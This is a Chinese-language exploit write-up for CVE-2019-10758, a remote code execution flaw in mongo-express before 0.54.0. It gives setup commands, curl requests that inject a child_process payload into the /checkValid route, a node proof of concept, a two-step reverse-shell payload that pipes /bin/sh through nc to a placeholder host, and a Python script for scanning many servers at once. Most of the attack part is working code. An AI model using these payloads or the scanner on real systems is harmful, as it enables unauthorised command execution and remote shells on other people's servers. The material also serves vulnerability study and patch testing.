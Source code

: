 （CVE-2019-10758）Mongo expres rce
==================================

一、漏洞简介
------------

漏洞问题出在lib/bson.js中的toBSON()函数中，路由 /checkValid
从外部接收输入，并调用了存在 RCE
漏洞的代码，由此存在被攻击的风险，可在服务器上进行任意命令执行。

二、漏洞影响
------------

mongo-express \< 0.54.0

三、复现过程
------------

https://github.com/ianxtianxt/CVE-2019-10758

#### 安装环境

    docker run -p 27017:27017 -d mongo
    npm install mongo-express@0.53.0 
    cd node_modules/mongo-express/ && node app.js

#### cURL exploit

    curl 'http://www.0-sec.org:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("/Applications/Calculator.app/Contents/MacOS/Calculator")'

![](./.resource/(CVE-2019-10758)Mongoexpresrce/media/rId26.png)

    curl 'http://www.0-sec.org:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw==' --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("echo Str1am > file.txt")'

![](./.resource/(CVE-2019-10758)Mongoexpresrce/media/rId27.png)

#### Script exploit

    node main.js

#### main.js

    exploit = "this.constructor.constructor(\"return process\")().mainModule.require('child_process').execSync('/Applications/Calculator.app/Contents/MacOS/Calculator')"

    var bson = require('mongo-express/lib/bson')
    bson.toBSON(exploit)

### 补充

> mongo-express远程代码执行，反弹shell代码如下：

#### POST BODY 1:

    document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("mkfifo /tmp/f")

#### POST BODY 2：

    document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("cat /tmp/f | /bin/sh -i 2>%261 | nc x.x.x.x 666 >/tmp/f")

### 批量监测脚本【只放核心代码】

    payload = r'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("echo 111111")'

    def http_request(url,path_out):
        try:
            print("Trying:" + url + ' ' + '[' + str(left) + '/' + str(countLines) + ']')
            vulurl = url + "/checkValid"
            r = requests.post(url=vulurl, headers=headers, data=payload, timeout=10, verify= False)
            if r.status_code == 200 and 'Valid' in r.text:
                print("\033[1;40;32m'Good Found!' {}\033[0m".format(vulurl))
                #printGreen("[+]" + url)
                with open(path_out,'a') as f:
                    f.write(vulurl + '\n')
            else:
                print("[-]" + "r.status_code:" + str(r.status_code) + "," + "raise.text:" + r.text)
        except Exception as err:
            print(err)
